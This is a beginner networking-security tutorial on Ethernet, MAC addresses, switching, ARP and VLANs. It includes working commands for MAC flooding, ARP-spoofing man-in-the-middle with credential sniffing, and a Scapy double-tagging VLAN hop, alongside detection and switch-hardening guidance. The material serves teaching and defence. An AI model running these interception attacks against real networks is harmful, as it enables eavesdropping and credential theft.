





**Level:** Beginner · **Track:** Foundations · **Read time:** 120 min

This is Chapter 14 of the series. We now drop to **Layer 2 — the local network** — where frames move between machines that share a wire or an access point. This is where an attacker with a foothold on the LAN becomes genuinely dangerous: Layer 2 protocols were designed in an era of implicit trust, so a switch believes almost anything it's told. Master this chapter and you can perform (and detect) man-in-the-middle attacks, sniff a "switched" network, hop VLANs, and understand exactly why network segmentation is a security control. Everything here is the foundation of the Network Attacks track later.

We build from zero: what an Ethernet frame contains, what a MAC address really is, how a switch learns and forwards, how ARP glues IP to MAC — and then how each of those trust assumptions is abused and defended.

## Layer 2 in Context: The Local Delivery Layer

Recall the layer model: Layer 3 (IP) gets a packet *across* networks; **Layer 2 (Data Link) delivers it across the last hop, on the local segment**. Within one network (one broadcast domain), hosts talk to each other using **MAC addresses**, not IPs. When your laptop sends to the gateway, the IP destination is the far server but the *frame's* destination MAC is the router's MAC. This local-delivery role is why Layer 2 attacks are so potent: control the local delivery and you control everyone's traffic on that segment.



Two devices dominate Layer 2: the **switch** (forwards frames by MAC within a network) and the **NIC** (has the MAC, puts frames on the wire). Contrast with the **router** (Layer 3, forwards by IP between networks) and the old **hub** (Layer 1, blindly repeats every bit to every port — which, ironically, made sniffing trivial).

## The Ethernet Frame, Field by Field

Ethernet (IEEE 802.3) is the dominant Layer 2 technology for wired LANs; Wi-Fi (802.11) is its wireless cousin with a more complex frame (covered in the Wireless chapter). A standard Ethernet II frame:

```text
+----------+----------+----------+--------+-----------------+-----+
| Preamble | Dst MAC  | Src MAC  | Type   |   Payload       | FCS |
| 8 bytes  | 6 bytes  | 6 bytes  | 2 byte | 46-1500 bytes   |4 by |
+----------+----------+----------+--------+-----------------+-----+
```

| Field | Size | Purpose |
|---|---|---|
| Preamble/SFD | 8 B | Sync clocks, mark frame start (Layer 1-ish) |
| Destination MAC | 6 B | Who receives it on this segment |
| Source MAC | 6 B | Who sent it |
| EtherType | 2 B | What's inside: `0x0800`=IPv4, `0x0806`=ARP, `0x86DD`=IPv6, `0x8100`=802.1Q VLAN |
| Payload | 46–1500 B | The encapsulated packet (usually IP) |
| FCS | 4 B | CRC checksum; corrupt frames are dropped |

Two numbers matter: the **MTU** is the payload max of **1500 bytes** (why big data must be fragmented — Chapter 11), and the **minimum payload is 46 bytes** (short frames are padded). The **EtherType** is your fast triage field: `0x0806` means "this is ARP," which is where Layer 2 attacks live.

## MAC Addresses Demystified

A **MAC (Media Access Control) address** is a 48-bit (6-byte) identifier written as twelve hex digits: `00:1A:2B:3C:4D:5E`. Structure:

- **First 3 bytes = OUI (Organizationally Unique Identifier)** — assigned to the NIC vendor. `00:50:56` = VMware, `08:00:27` = VirtualBox, `DC:A6:32` = Raspberry Pi, `00:0C:29` = VMware. This is recon: a MAC starting `08:00:27` on a "server" hints at a VirtualBox VM.
- **Last 3 bytes** = a unique NIC identifier assigned by the vendor.
- **Two special bits** in the first byte: the **I/G bit** (individual vs group/multicast) and the **U/L bit** (universally vs locally administered — set when you spoof/randomise a MAC).

The broadcast MAC is `FF:FF:FF:FF:FF:FF` — a frame to it reaches **every** host on the segment (ARP requests use this). Crucially, **MAC addresses are not authenticated and are trivially spoofable in software** — the "burned-in" address is just a default the OS can override. That single fact underlies MAC spoofing, ARP poisoning, and much of Layer 2 attacking.

```bash
# View and change your MAC (Linux)
ip link show eth0                    # shows "link/ether 08:00:27:aa:bb:cc"
sudo ip link set eth0 down
sudo ip link set eth0 address 00:11:22:33:44:55   # spoof
sudo ip link set eth0 up
# or with macchanger:
sudo macchanger -r eth0              # random MAC
sudo macchanger -p eth0              # restore permanent MAC
```

## How a Switch Works: The CAM Table

A switch is smart where a hub was dumb. It maintains a **MAC address table** (a.k.a. **CAM table** — Content-Addressable Memory) mapping each MAC to the physical port it was last seen on. The learning/forwarding logic:

1. **Learn** — when a frame arrives, record `source MAC → incoming port`.
2. **Forward** — if the destination MAC is known, send the frame out **only that one port** (this is why a switched network doesn't let you sniff everyone's traffic by default).
3. **Flood** — if the destination MAC is *unknown* (or is broadcast/multicast), send it out **all ports except the source** (called unknown-unicast flooding).
4. **Age out** — entries expire after a timeout (~300s) so the table stays current.



This behaviour is the target of the first classic Layer 2 attack.

## Attack 1 — MAC Flooding (CAM Table Overflow)

The CAM table has finite memory. **MAC flooding** sends a torrent of frames with random, bogus **source** MACs, filling the table with junk. When the table is full, many switches **fail open** — they can no longer store real mappings, so they revert to **flooding all frames out all ports**, effectively becoming a hub. Now the attacker sees *everyone's* traffic on that segment and can sniff cleartext credentials.

```bash
# macof (from the dsniff suite) floods random MACs
sudo apt install -y dsniff
sudo macof -i eth0                 # blast the CAM table
# In another terminal, sniff the now-flooded traffic:
sudo tcpdump -i eth0 -A | grep -iE 'pass|user|login'
```

**Defence: switch port security** — limit the number of MACs learned per port and shut/restrict the port on violation (`switchport port-security maximum 2`). Modern managed switches stop macof cold. In a lab, run it against a virtual switch to *see* the failure mode; never against production you don't own.

## ARP: Gluing IP to MAC

Here's the problem ARP solves: your host knows the *IP* it wants to reach on the local network (say the gateway `192.168.1.1`), but to build the Ethernet frame it needs that IP's *MAC*. **ARP (Address Resolution Protocol, RFC 826)** is the lookup. It's beautifully simple — and dangerously trusting.

The exchange:

1. Host A broadcasts an **ARP Request**: "Who has `192.168.1.1`? Tell `192.168.1.10`." (destination MAC = `FF:FF:FF:FF:FF:FF`, so everyone hears it).
2. The owner (`192.168.1.1`) sends a **unicast ARP Reply**: "`192.168.1.1` is at `gg:gg:gg:gg:gg:gg`."
3. Host A caches that mapping in its **ARP table** and uses it for the frame.



```bash
ip neigh show          # your live ARP cache (IP -> MAC -> state)
arp -a                 # classic view
# 192.168.1.1 dev eth0 lladdr gg:gg:gg:gg:gg:gg REACHABLE
```

The fatal flaw: **ARP has no authentication and hosts accept unsolicited/gratuitous replies.** A host will happily overwrite its cache with any ARP reply it receives, even one it never asked for. That is the door to man-in-the-middle.

## Attack 2 — ARP Spoofing / Poisoning (The Layer 2 MITM)

**ARP spoofing** floods the victim (and the gateway) with forged ARP replies claiming *the attacker's MAC* owns the other's IP. The victim's cache now maps the gateway's IP to the attacker's MAC, so all the victim's "internet" traffic is delivered to the attacker, who forwards it on (staying transparent) while reading and optionally modifying it. Poison both directions and you're a full man-in-the-middle.



Hands-on in a lab you own (two VMs + a gateway):

```bash
# Enable forwarding so the victim keeps working (stealth)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# --- Option A: bettercap (modern, recommended) ---
sudo bettercap -iface eth0
# inside bettercap:
#   net.probe on
#   set arp.spoof.targets 192.168.1.10
#   arp.spoof on
#   net.sniff on              # watch victim traffic

# --- Option B: arpspoof (dsniff, classic) ---
sudo arpspoof -i eth0 -t 192.168.1.10 192.168.1.1   # tell victim we're the gateway
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.10   # tell gateway we're the victim
```

With the MITM active, run `tcpdump`/Wireshark to capture the victim's cleartext (HTTP, DNS, FTP, unencrypted creds). This is why **HTTPS/TLS matters**: on a poisoned LAN, cleartext protocols are fully exposed, but TLS traffic remains encrypted (you'd see the connection but not the plaintext — attempting to break it requires SSL-stripping or a rogue cert, covered in the DNS-spoofing/SSL-strip chapter).

> **Lawful-use reminder** — ARP spoofing is a live interception attack. Only ever run it on lab networks or engagements with **explicit written authorization**. On a network you don't own it's a crime in most jurisdictions.

## Detecting & Defending ARP Attacks

Because ARP spoofing means "two IPs suddenly share one MAC" or "the gateway's MAC changed," it's detectable:

- **`arpwatch`** — daemon that logs every IP↔MAC pairing and alerts on changes ("flip flop" events).
- **Static ARP entries** for critical hosts (`ip neigh add 192.168.1.1 lladdr gg:gg:gg:gg:gg:gg dev eth0 nud permanent`) — the gateway mapping can't be poisoned.
- **Dynamic ARP Inspection (DAI)** on managed switches — validates ARP replies against the DHCP-snooping binding table and drops forgeries.
- **Wireshark** flags `duplicate use of <IP> detected` when two MACs claim one IP.
- **XArp** and IDS rules watching for a flood of gratuitous ARP replies.

```bash
sudo apt install -y arpwatch
sudo arpwatch -i eth0            # then check syslog for "changed ethernet address"
```

## VLANs: Virtual Segmentation on One Switch

A **VLAN (Virtual LAN, IEEE 802.1Q)** lets one physical switch host several isolated logical networks. Ports assigned to VLAN 10 form one broadcast domain; ports in VLAN 20 form another; frames can't cross between them without a router/Layer-3 device. VLANs are the everyday tool for **segmentation** — putting finance, guests, servers, VoIP and IoT on separate networks for security and performance.

Frames carry VLAN membership via an **802.1Q tag** — a 4-byte field inserted into the Ethernet header containing the 12-bit **VLAN ID** (1–4094). Two port types:

- **Access port** — belongs to one VLAN; carries untagged frames to/from an end device.
- **Trunk port** — carries *tagged* frames for *many* VLANs between switches (or to a router / "router-on-a-stick").



## Attack 3 — VLAN Hopping

If VLANs are a security boundary, escaping one is a real breach. Two techniques:

**Switch spoofing (DTP abuse).** Cisco's **Dynamic Trunking Protocol** can auto-negotiate a port into a trunk. If a port is left at the default `dynamic auto/desirable`, an attacker's device can negotiate a trunk and then receive traffic for *all* VLANs. Tool: `yersinia`.

**Double tagging.** The attacker crafts a frame with **two** 802.1Q tags: an outer tag for the *native* VLAN (which the first switch strips) and an inner tag for the *target* VLAN. The second switch reads the now-exposed inner tag and forwards the frame into the victim VLAN. It's one-way (no easy return path) but enough to inject packets across a boundary.

```bash
# Yersinia can launch DTP/STP/VLAN attacks (GUI or CLI)
sudo yersinia -G           # graphical; choose 802.1Q / DTP attacks
# Scapy double-tag proof of concept (lab only):
python3 - <<'PY'
from scapy.all import Ether, Dot1Q, IP, ICMP, sendp
frame = Ether()/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst="192.168.20.5")/ICMP()
sendp(frame, iface="eth0")
PY
```

**Defences:** disable DTP (`switchport mode access` + `switchport nonegotiate`), never use VLAN 1 for anything, set the native VLAN to an unused ID, prune unused VLANs off trunks, and use `switchport port-security`. These are standard switch-hardening steps every network hardening guide (and CIS benchmark) lists.

## Other Layer 2 Attacks (Awareness)

| Attack | Mechanism | Defence |
|---|---|---|
| **STP / root bridge takeover** | Forge superior BPDUs to become root, reroute traffic through you | BPDU Guard, Root Guard |
| **DHCP starvation** | Exhaust the DHCP pool with spoofed MACs | Port security, DHCP snooping |
| **Rogue DHCP server** | Answer first with attacker gateway/DNS → MITM | DHCP snooping (trusted ports only) |
| **CDP/LLDP recon** | Passive listening leaks switch model, VLANs, IPs | Disable discovery on edge ports |
| **802.1X bypass** | Sneak past port-based NAC via a hub/bridge | MACsec, downstream 802.1X |

DHCP-specific attacks get their own deep dive in the DHCP chapter; STP/CDP live in the Network Attacks track. The pattern is always the same: **a Layer 2 protocol trusts input it shouldn't.**

## Hands-On Lab: Watch Ethernet, ARP and VLANs in Wireshark

### Step 1 — Capture ARP resolution

```bash
sudo tcpdump -i eth0 -n arp &
ip neigh flush all           # clear cache to force fresh ARP
ping -c1 192.168.1.1         # triggers ARP for the gateway
```

In Wireshark filter `arp`. You'll see:

```text
ARP  Who has 192.168.1.1? Tell 192.168.1.10      (broadcast ff:ff:ff:ff:ff:ff)
ARP  192.168.1.1 is at gg:gg:gg:gg:gg:gg          (unicast reply)
```

That's the exact request/reply from the sequence diagram — the glue between Layer 3 and Layer 2, live.

### Step 2 — Read the frame header

Click any packet, expand **Ethernet II**. You'll see Destination, Source and Type (`0x0806` for ARP, `0x0800` for IPv4). Note how ARP requests are addressed to the broadcast MAC while replies are unicast — the flooding-vs-forwarding logic from the switch section.

### Step 3 — Observe a (lab) ARP spoof detection

Run the bettercap spoof from earlier on your lab, then in the victim's Wireshark watch for repeated gratuitous ARP replies and a `duplicate IP address` warning — that's exactly what `arpwatch` and DAI key on.

### Step 4 — Inspect an 802.1Q tag

On a trunk capture (or a crafted frame), Wireshark shows an extra **802.1Q Virtual LAN** layer between Ethernet and IP, with the VLAN ID. Filter `vlan.id == 20` to isolate one VLAN's traffic.

## Common Pitfalls & How to Overcome Them

- **Forgetting to enable IP forwarding before ARP spoofing** — the victim loses internet, the attack is obvious, and you capture nothing useful. `echo 1 > /proc/sys/net/ipv4/ip_forward` first.
- **Expecting to sniff a switched LAN passively** — a switch forwards unicast only to the right port. You need ARP spoofing, MAC flooding, or a SPAN/mirror port to see others' traffic.
- **Confusing MAC and IP roles** — MAC is local and per-hop; IP is end-to-end. Poisoning ARP changes *local delivery*, not the IP addressing.
- **Thinking VLANs are strong isolation** — they're a segmentation *convenience*, not a hard security boundary; misconfig (DTP, VLAN 1, native VLAN) makes hopping possible. Treat inter-VLAN control as firewall policy.
- **Running Layer 2 attacks on real networks** — legal and ethical minefield. Lab only, or authorised scope with sign-off.

> **Memory hook** — Layer 2 attacks all exploit one of three trusts: the switch trusts **source MACs** (MAC flooding), hosts trust **ARP replies** (ARP poisoning), and switches trust **VLAN tags / DTP** (VLAN hopping). Break the trust, own the segment.

## Real-World Application & Case Studies

- **Internal pentests** almost always start with a Layer 2 phase: ARP-scan the segment (`arp-scan -l`), then decide whether MITM is in scope. Cleartext protocol creds (FTP, Telnet, HTTP, SNMP, LLMNR) fall out quickly.
- **Responder + LLMNR/NBT-NS poisoning** (Network Attacks chapter) is a Layer 2/broadcast attack that harvests Windows NetNTLM hashes — one of the most productive internal techniques in the field.
- **VLAN misconfig breaches** — auditors regularly find "isolated" guest/IoT VLANs that can reach the corporate VLAN due to a trunk left on `dynamic auto`.
- **The Target breach (2013)** famously pivoted from an HVAC vendor's access into the payment network — a segmentation failure at heart, exactly the class of control VLANs and firewalls are meant to enforce.

> **Bug Bounty Angle** — Layer 2 is usually **out of scope** for remote web bounties (you're not on the target's LAN). Where it *does* pay: **IoT/hardware programs** and **on-site/physical red-team scopes**, where ARP spoofing, rogue DHCP and VLAN hopping against a device's local network are fair game and demonstrate real impact (e.g. intercepting a smart device's cleartext API). It also matters for **cloud/container** work — within a VPC or Kubernetes node, ARP/L2 tricks between co-tenant workloads can appear. Frame findings as "attacker with local network adjacency can MITM cleartext traffic and steal credentials," and always show the captured secret as proof. For pure web programs, redirect this energy to Layer 7.

> **CTF Angle** — Layer 2 shows up in **network-forensics** challenges: you're handed a pcap containing ARP poisoning (spot the duplicate-MAC / gratuitous replies) or a VLAN-tagged capture (filter `vlan.id`, find the hidden traffic on another VLAN). Some CTFs simulate a switched lab where you must ARP-spoof a service to read a flag. Reflexes: `arp-scan -l` to map the segment, `tshark -Y arp` to find poisoning, and Scapy to craft tagged/spoofed frames. Practice: TryHackMe "Layer 2 / L2 MAC Flooding & ARP Spoofing", HTB network-analysis modules, and any pcap forensics set on picoCTF.

## Detection & Defense: Hardening Layer 2 (Blue Team)

A hardened access-layer switch config, conceptually:

```text
port-security maximum 2                # stop MAC flooding
ip dhcp snooping                       # stop rogue DHCP
ip arp inspection vlan 10              # DAI: stop ARP spoofing
spanning-tree bpduguard enable         # stop STP takeover
switchport mode access                 # stop DTP/VLAN hopping
switchport nonegotiate
switchport access vlan 10              # not VLAN 1
```

Detection signals a SOC watches: `arpwatch`/DAI alerts (IP↔MAC changes), a spike in gratuitous ARP, `port-security violation` traps, unexpected DHCP OFFERs from non-trusted ports, and Wireshark "duplicate IP" warnings on span captures. The theme: since Layer 2 has no crypto, defence is **switch features + monitoring for the tell-tale trust violations**. Pairing DAI + DHCP snooping + port security + BPDU guard neutralises the entire attack table above.

## Final Revision / Summary

- **Layer 2 = local delivery** using **MAC addresses**; the **switch** forwards frames by a learned **CAM table** (learn → forward-if-known → flood-if-unknown).
- **Ethernet frame**: Dst MAC, Src MAC, EtherType (`0x0806`=ARP, `0x0800`=IPv4), payload (46–1500 B), FCS. MTU 1500.
- **MAC** = 48-bit, OUI (vendor) + NIC id; broadcast `FF:FF:FF:FF:FF:FF`; **trivially spoofable**.
- **ARP** maps IP→MAC via broadcast request / unicast reply, **with no authentication** — the root of Layer 2 MITM.
- **Three core attacks**: **MAC flooding** (overflow CAM → sniff), **ARP spoofing** (forged replies → MITM), **VLAN hopping** (DTP/double-tag → cross segments).
- **Defences**: port security, DHCP snooping, **Dynamic ARP Inspection**, BPDU guard, disable DTP, avoid VLAN 1, static ARP for gateways, `arpwatch`.
- Tools: `ip link`/`macchanger` (MAC), `bettercap`/`arpspoof` (MITM), `macof` (flood), `yersinia`/Scapy (VLAN/STP), `arp-scan`/`arpwatch` (map/detect).

## Cheat Sheet / Quick Reference

```bash
# RECON / INSPECT
ip link show                       # your MAC
ip neigh show                      # ARP cache (IP<->MAC)
sudo arp-scan -l                   # discover hosts on the segment
sudo tcpdump -i eth0 arp           # watch ARP

# MAC SPOOF
sudo macchanger -r eth0            # random MAC
sudo macchanger -p eth0            # restore

# MITM (LAB / AUTHORIZED ONLY)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
sudo bettercap -iface eth0         # arp.spoof on ; net.sniff on
sudo arpspoof -i eth0 -t <victim> <gateway>
sudo macof -i eth0                 # CAM flood

# VLAN / STP
sudo yersinia -G                   # DTP/STP/802.1Q attacks

# DETECT (BLUE)
sudo arpwatch -i eth0              # alert on IP<->MAC changes
```

```text
ETHERTYPES: 0x0800 IPv4 | 0x0806 ARP | 0x86DD IPv6 | 0x8100 802.1Q VLAN
COMMON OUIs: 00:50:56 & 00:0C:29 VMware | 08:00:27 VirtualBox | DC:A6:32 RaspberryPi
BROADCAST MAC: FF:FF:FF:FF:FF:FF   VLAN ID range: 1-4094 (avoid VLAN 1)
L2 ATTACK -> DEFENCE:
  MAC flood   -> port-security
  ARP spoof   -> Dynamic ARP Inspection + static ARP + arpwatch
  Rogue DHCP  -> DHCP snooping
  VLAN hop    -> disable DTP, switchport mode access, non-default native VLAN
  STP takeover-> BPDU guard / root guard
```

## Practice Labs & Resources

- **TryHackMe — "Layer 2 Attacks" / "Network Security" rooms** and **"Wireshark: Traffic Analysis"**: hands-on ARP spoofing and detection.
- **HTB Academy — "Intro to Network Traffic Analysis"** and **"Network Enumeration"**: read Layer 2 in captures.
- **GNS3 / Cisco Packet Tracer**: build a switch, configure VLANs and trunks, then break them with DTP/double-tagging in a safe sandbox — the best way to *see* VLAN hopping.
- **bettercap "caplets"** and its official docs: modern MITM tradecraft, lab-scoped.
- **picoCTF / HTB pcap forensics**: spot ARP poisoning and VLAN-tagged traffic in captures.
- **Exercise** — in two lab VMs, run an ARP spoof, capture the victim's cleartext HTTP login, then deploy `arpwatch` + a static ARP entry and confirm the attack now fails. Doing both sides cements it.

Next we climb back to Layer 3 for the logic that moves packets *between* networks: **Routing, NAT and the default gateway** — how your router decides where each packet goes and how private hosts reach the public internet.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/networking/04-ethernet-mac-addresses-switching-arp-and-vlans), with comments and the latest edits.*
